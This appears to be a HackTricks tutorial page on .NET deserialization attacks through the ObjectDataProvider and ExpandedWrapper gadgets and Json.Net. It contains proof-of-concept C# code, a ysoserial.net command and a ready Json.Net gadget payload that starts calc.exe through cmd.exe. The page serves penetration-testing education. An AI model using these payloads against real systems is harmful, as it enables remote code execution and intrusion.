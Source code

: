 # Basic .Net deserialization (ObjectDataProvider gadget, ExpandedWrapper, and Json.Net)

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

This post is dedicated to **understand how the gadget ObjectDataProvider is exploited** to obtain RCE and **how** the Serialization libraries **Json.Net and xmlSerializer can be abused** with that gadget.

## ObjectDataProvider Gadget

From the documentation: _the ObjectDataProvider Class Wraps and creates an object that you can use as a binding source_.\
Yeah, it's a weird explanation, so lets see what does this class have that is so interesting: This class allows to **wrap an arbitrary object**, use _**MethodParameters**_ to **set arbitrary parameters,** and then **use MethodName to call an arbitrary function** of the arbitrary object declared using the arbitrary parameters.\
Therefore, the arbitrary **object** will **execute** a **function** with **parameters while being deserialized.**

### **How is this possible**

The **System.Windows.Data** namespace, found within the **PresentationFramework.dll** at `C:\Windows\Microsoft.NET\Framework\v4.0.30319\WPF`, is where the ObjectDataProvider is defined and implemented. 

Using [**dnSpy**](https://github.com/0xd4d/dnSpy) you can **inspect the code** of the class we are interested in. In the image below we are seeing the code of **PresentationFramework.dll --> System.Windows.Data --> ObjectDataProvider --> Method name**

![](<../../.gitbook/assets/image (299).png>)

As you can observe when `MethodName` is set `base.Refresh()` is called, lets take a look to what does it do:

![](<../../.gitbook/assets/image (300).png>)

Ok, lets continue seeing what does `this.BeginQuery()` does. `BeginQuery` is overridden by `ObjectDataProvider` and this is what it does:

![](<../../.gitbook/assets/image (301).png>)

Note that at the end of the code it's calling `this.QueryWorke(null)`. Let's see what does that execute:

![](<../../.gitbook/assets/image (302) (1).png>)

Note that this isn't the complete code of the function `QueryWorker` but it shows the interesting part of it: The code **calls `this.InvokeMethodOnInstance(out ex);`** this is the line where the **method set is invoked**.

If you want to check that just setting the _**MethodName**_\*\* it will be executed\*\*, you can run this code:

```java
using System.Windows.Data;
using System.Diagnostics;

namespace ODPCustomSerialExample
{
    class Program
    {
        static void Main(string[] args)
        {
            ObjectDataProvider myODP = new ObjectDataProvider();
            myODP.ObjectType = typeof(Process);
            myODP.MethodParameters.Add("cmd.exe");
            myODP.MethodParameters.Add("/c calc.exe");
            myODP.MethodName = "Start";
        }
    }
}
```

Note that you need to add as reference _C:\Windows\Microsoft.NET\Framework\v4.0.30319\WPF\PresentationFramework.dll_ in order to load `System.Windows.Data`

## ExpandedWrapper

Using the previous exploit there will be cases where the **object** is going to be **deserialized as** an _**ObjectDataProvider**_ instance (for example in DotNetNuke vuln, using XmlSerializer, the object was deserialized using `GetType`). Then, will have **no knowledge of the object type that is wrapped** in the _ObjectDataProvider_ instance (`Process` for example). You can find more [information about the DotNetNuke vuln here](https://translate.google.com/translate?hl=en\&sl=auto\&tl=en\&u=https%3A%2F%2Fpaper.seebug.org%2F365%2F\&sandbox=1).

This class allows to s**pecify the object types of the objects that are encapsulated** in a given instance. So, this class can be used to encapsulate a source object (_ObjectDataProvider_) into a new object type and provide the properties we need (_ObjectDataProvider.MethodName_ and _ObjectDataProvider.MethodParameters_).\
This is very useful for cases as the one presented before, because we will be able to **wrap \_ObjectDataProvider**_\*\* inside an \*\*_**ExpandedWrapper** \_ instance and **when deserialized** this class will **create** the _**OjectDataProvider**_ object that will **execute** the **function** indicated in _**MethodName**_.

You can check this wrapper with the following code:

```java
using System.Windows.Data;
using System.Diagnostics;
using System.Data.Services.Internal;

namespace ODPCustomSerialExample
{
    class Program
    {
        static void Main(string[] args)
        {
            ExpandedWrapper<Process, ObjectDataProvider> myExpWrap = new ExpandedWrapper<Process, ObjectDataProvider>();
            myExpWrap.ProjectedProperty0 = new ObjectDataProvider();
            myExpWrap.ProjectedProperty0.ObjectInstance = new Process();
            myExpWrap.ProjectedProperty0.MethodParameters.Add("cmd.exe");
            myExpWrap.ProjectedProperty0.MethodParameters.Add("/c calc.exe");
            myExpWrap.ProjectedProperty0.MethodName = "Start";
        }
    }
}
```

## Json.Net

In the [official web page](https://www.newtonsoft.com/json) it is indicated that this library allows to **Serialize and deserialize any .NET object with Json.NET's powerful JSON serializer**. So, if we could **deserialize the ObjectDataProvider gadget**, we could cause a **RCE** just deserializing an object.

### Json.Net example

First of all lets see an example on how to **serialize/deserialize** an object using this library:

```java
using System;
using Newtonsoft.Json;
using System.Diagnostics;
using System.Collections.Generic;

namespace DeserializationTests
{
    public class Account
    {
        public string Email { get; set; }
        public bool Active { get; set; }
        public DateTime CreatedDate { get; set; }
        public IList<string> Roles { get; set; }
    }
    class Program
    {
        static void Main(string[] args)
        {
            Account account = new Account
            {
                Email = "james@example.com",
                Active = true,
                CreatedDate = new DateTime(2013, 1, 20, 0, 0, 0, DateTimeKind.Utc),
                Roles = new List<string>
                {
                    "User",
                    "Admin"
                }
            };
            //Serialize the object and print it
            string json = JsonConvert.SerializeObject(account);
            Console.WriteLine(json);
            //{"Email":"james@example.com","Active":true,"CreatedDate":"2013-01-20T00:00:00Z","Roles":["User","Admin"]}
            
            //Deserialize it
            Account desaccount = JsonConvert.DeserializeObject<Account>(json);
            Console.WriteLine(desaccount.Email);
        }
    }
}
```

### Abusing Json.Net

Using [ysoserial.net](https://github.com/pwntester/ysoserial.net) I crated the exploit:

```java
ysoserial.exe -g ObjectDataProvider -f Json.Net -c "calc.exe"
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c calc.exe']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

In this code you can **test the exploit**, just run it and you will see that a calc is executed:

```java
using System;
using System.Text;
using Newtonsoft.Json;

namespace DeserializationTests
{
    class Program
    {
        static void Main(string[] args)
        {
            //Declare exploit
            string userdata = @"{
                '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
                'MethodName':'Start',
                'MethodParameters':{
                            '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
                    '$values':['cmd', '/c calc.exe']
                },
                'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
            }";
            //Exploit to base64
            string userdata_b64 = Convert.ToBase64String(System.Text.Encoding.UTF8.GetBytes(userdata));

            //Get data from base64
            byte[] userdata_nob64 = Convert.FromBase64String(userdata_b64);
            //Deserialize data
            string userdata_decoded = Encoding.UTF8.GetString(userdata_nob64);
            object obj = JsonConvert.DeserializeObject<object>(userdata_decoded, new JsonSerializerSettings
            {
                TypeNameHandling = TypeNameHandling.Auto
            });
        }
    }
}
```

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
